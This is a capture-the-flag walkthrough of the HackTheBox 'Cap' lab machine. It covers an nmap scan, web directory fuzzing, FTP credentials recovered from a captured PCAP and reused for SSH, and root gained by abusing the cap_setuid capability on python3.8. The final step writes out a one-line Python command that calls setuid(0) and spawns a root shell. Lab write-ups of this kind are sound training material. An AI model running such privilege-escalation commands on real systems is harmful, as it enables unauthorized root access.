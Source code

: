 # Cap

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/c4426d24-4e51-48e1-b59e-f97a50b8d234)

## Difficulty = Easy
---
First of all, let run our nmap scan

```sh
# Nmap 7.94 scan initiated Tue Aug 15 05:45:42 2023 as: nmap -p- -sCV -v --min-rate=1000 -T4 -oN nmap.txt 10.10.10.245
Increasing send delay for 10.10.10.245 from 0 to 5 due to 215 out of 537 dropped probes since last increase.
Increasing send delay for 10.10.10.245 from 5 to 10 due to 148 out of 369 dropped probes since last increase.
Warning: 10.10.10.245 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.245
Host is up (0.25s latency).
Not shown: 58006 filtered tcp ports (no-response), 7526 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Tue, 15 Aug 2023 09:53:12 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 15 Aug 2023 09:53:02 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 15 Aug 2023 09:53:04 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94%I=7%D=8/15%Time=64DB4B00%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,2808,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Tue,\x2015\x20Aug\x202023\x2009:53:02\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20193
SF:86\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\
SF:n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x2
SF:0<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\
SF:x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\
SF:x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=
SF:1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image
SF:/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<
SF:link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">
SF:\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fon
SF:t-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20
SF:href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=
SF:\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.
SF:css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/c
SF:ss/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOption
SF:s,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Tue,\x2
SF:015\x20Aug\x202023\x2009:53:04\x20GMT\r\nConnection:\x20close\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20HEAD,\x20GET,\x20OP
SF:TIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text
SF:/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20
SF:\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\
SF:n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invali
SF:d\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP
SF:/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189
SF:,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20T
SF:ue,\x2015\x20Aug\x202023\x2009:53:12\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\
SF:r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20
SF:Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>
SF:\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20ser
SF:ver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20ch
SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 15 05:54:56 2023 -- 1 IP address (1 host up) scanned in 553.98 seconds
```

We have port 21, 22 and 80, i can't login to FTP with anonymous credentials

![](https://i.imgur.com/pd5IXV7.png)

Checking port 80/HTTP, we have a dashboard, Nothing seems wrong.

![](https://i.imgur.com/ALDanMS.png)

But navigating to the  `Security Snapshot (5 Second PCAP + Analysis)` section gives us few packets

![](https://i.imgur.com/hTu5tui.png)

Analyzing the packets gives us nothing much so i decided to FUZZ for directories using ffuf, we might find something useful 🌚

![](https://i.imgur.com/b8O0WAW.png)

Looks like alot , after minutes of sorting, i found out 0 was the  special one

![](https://i.imgur.com/80TRjan.png)

Analyzing the packets gives us FTP credentials

![](https://i.imgur.com/APp06H9.png)

Login in and we have the user.txt flag

![](https://i.imgur.com/tuVPCls.png)

There was nothing much in the FTP server so, i decided to use the same credentials for SSH

![](https://i.imgur.com/JTSG3ud.png)

Funny Enough it worked 🤟😀

Let Escalate privileges

Running `getcap -r / 2>/dev/null` gives us some list of capabilities

![](https://i.imgur.com/gqL3LBX.png)

We have an unusual capability which is `/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip` 

- Going to `GTFOBINS` , gives us an exploit 

![](https://i.imgur.com/WZEMk3W.png)

- We can tweak our payload to this `/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'` , Then we got root :

![](https://i.imgur.com/cwNk4pd.png)

Bankai 🧘‍♀️!!!!
